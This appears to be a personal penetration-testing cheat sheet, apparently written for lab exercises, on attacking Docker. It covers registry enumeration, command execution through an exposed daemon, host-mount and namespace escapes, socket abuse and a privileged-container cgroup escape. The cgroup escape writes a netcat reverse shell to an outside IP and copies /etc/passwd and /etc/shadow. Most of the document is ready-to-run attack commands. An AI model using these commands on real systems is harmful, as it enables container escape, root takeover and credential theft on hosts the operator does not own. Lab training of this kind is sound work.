 #### Docker registries
A docker registry is a storage and distribution system for named Docker images. 
The registry is organized into Docker repositories, with information about the current images.
The default port is 5000.

To enumerate Docker registries, use [[docker-grabber]]
To query the Docker images:
```
curl http://IP:PORT/v2/_catalog                        // Get all active Docker images.
curl http://IP:PORT/v2/REPOSITORY/NAME/tags/list       // Get tags of an image.
curl http://IP:PORT/v2/REPOSITORY/NAME/manifests/TAG   // Get info of a tag (usually contains command history)
```

#### Reverse engineering
If you're able to query the data inside of the docker registry (see [[#Docker registries]]), `docker pull` the registry:
```c++
nano /etc/docker/daemon.json
add IP:PORT to the list
systemctl stop docker*
systemctl start docker
systemctl start docker.socket

docker info   // Check if the IP has been added to the insecure registries.
```
try dumping the docker images with [[Dive]]

#### Exposed docker daemon
If you find an exposed docker daemon (Nmap docker, with a lot of info), you can communicate with the image inside.

Example `nmap` output:
```
┌─[root@edu-virtualbox]─[.../edu/THM]
└──╼ #nmap -A -p2375 10.10.68.223
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 16:41 CET
Nmap scan report for 10.10.68.223
Host is up (0.044s latency).
                                                           
PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
| docker-version:         
|   BuildTime: 2022-10-18T18:18:12.000000000+00:00
|   ApiVersion: 1.41                                    
|   KernelVersion: 5.15.0-1022-aws
|   Version: 20.10.20        
|   Platform:                
|     Name: Docker Engine - Community
|   GitCommit: 03df974
|   GoVersion: go1.18.7      
|   Components: 
|                       
|       Name: Engine  
|       Version: 20.10.20
|       Details:                                                                                                       
|         ApiVersion: 1.41
|         KernelVersion: 5.15.0-1022-aws
|         BuildTime: 2022-10-18T18:18:12.000000000+00:00
|         GitCommit: 03df974
|         GoVersion: go1.18.7         
|         Experimental: false
|         Arch: amd64    
|         Os: linux    
|         MinAPIVersion: 1.12
|                           
|       Name: containerd
|       Version: 1.6.8
|       Details:       
|         GitCommit: 9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6                                        
|                                                                                                                                                                                                                                              |       Name: runc                               
|       Version: 1.1.4                                   
|       Details:        
|         GitCommit: v1.1.4-0-g5fd4c4d
|     
|       Name: docker-init       
|       Version: 0.19.0
|       Details:     
|         GitCommit: de40ad0
|   Arch: amd64
|   Os: linux                                                                                                          
|_  MinAPIVersion: 1.12                                                                                                

```

To confirm access, use `curl http://IP:PORT/version`
The default port is `2375`

To execute code:
```
docker -H tcp://IP:PORT ps                        // List running images
// Note: if there are no containers running, use the commands "images" to list, and "run", to run a container.
docker -H tcp://IP:PORT exec CONTAINER_ID COMMAND // Execute a command in a container 
```

#### Exposed internal docker daemon
Assuming you've got a foothold on the target system, check for the "Docker" group using `groups`
##### Initial check:
```
user@machine:~#groups
sudo docker                  // "docker" group is enabled
```
##### Exploitation
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh         // Mount the host system to the internal image
// IMPORTANT NOTE: This won't work on THM servers, or other places without access to the internet.
// To bypass this, replace the "alpine" with the ID of the box, like this:
docker images                                               // Copy the ID of any of the available images.
docker run -v /:/mnt --rm -it ANY_IMAGE_ID chroot /mnt sh   // Mount the host system to the internal image
```

##### Shared namespaces
If you see a lot of processes when running `ps aux`  generally 20+, try this:
```
nsenter --target 1 --mount sh
```
`--target 1`  -- The targetted process (and the target namespace)
`--mount`  -- the mount namespace of the target process
`sh`  -- Execute `sh` in the namespace (kernel)

#### Capabilities
Requirement: a Docker image with `privileged` mode enabled.
The `priveleged` mode means that all capabilities have been granted to the Docker image, allowing it to bypass the Docker Engine and reach the system.
To check if the image is Privileged, use
```
capsh --print                    // If this gives lots of output, privileged mode is likely enabled.
capsh --print | grep sys_admin   // If this returns output, it is exploitable.
```

Exploitation:
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.1.167 5555 >/tmp/f" >> /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
echo "cat /etc/shadow > $host_path/output"
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

#### Writable docker socket
To get root in the docker, upload a docker binary.
Secondly, run 
```
./docker run --entrypoint /bin/bash -it --rm HOST_IMAGE_NAME
```

#### Scanning the host
The host of the docker's IP is usually 172.17.0.1
To make sure, use:
```
/sbin/ip route|awk '/default/ { print $3 }'
```
if you scan it using `nmap`, you might find something


### miscellaneous
get full tty: `script /dev/null -c bash`